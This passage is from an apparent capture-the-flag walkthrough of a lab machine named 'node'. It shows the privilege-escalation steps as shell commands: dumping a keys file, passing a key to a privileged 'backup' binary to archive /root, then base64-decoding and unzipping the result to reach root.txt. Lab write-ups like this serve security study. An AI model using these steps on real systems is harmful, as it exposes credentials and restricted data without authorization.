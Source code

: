 ```bash
tom@node:/$ cat /etc/myplace/keys
a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110
```

# Shell as Root

## Read Flag only [ Path I ]

Since now we have the keys and know how it works, let us try to read the root directory folder.

```shell
tom@node:/$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 /root
```

![image](https://user-images.githubusercontent.com/59029171/139864597-4bcd48c8-fc94-4ed5-adb2-3e701b47c330.png)

Let us transfer the output to our local machine and analyze it. It looks like base64, and piping it out to a file and analyzing it tells it is a zip file. We can use the same password as last time to crack the zip and read the data.

```bash
0xStarlight@kali$ cat unknown | base64 -d > unknown.zip
0xStarlight@kali$ unzip unknown.zip
```
After extracting the file it gives us `root.txt`
Let us read the content of the file.

```bash
0xStarlight@kali$ cat root.txt
```
Its a troll ! :( I guess its not that easy

![image](https://user-images.githubusercontent.com/59029171/139864757-cbf9c254-6bc3-4f3c-a1df-c6cbd6dc9df5.png)

Let us try it out again without `/` in `/root` while entering the parameter. I am just guessing and checking the result.

```shell
tom@node:/$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 root
```
It has way more output this time.
Let us do the same steps as before, extract the file and then read the file's contents.

```bash
0xStarlight@kali$ unzip decode.zip 
Archive:  decode1.zip
   creating: root/
[decode1.zip] root/.profile password: 
  inflating: root/.profile           
  inflating: root/.bash_history      
   creating: root/.cache/
 extracting: root/.cache/motd.legal-displayed  
 extracting: root/root.txt           
  inflating: root/.bashrc            
  inflating: root/.viminfo           
   creating: root/.nano/
 extracting: root/.nano/search_history 
```
It looks like we have root.txt 🥳.
But it's not over yet. We don't have a shell.
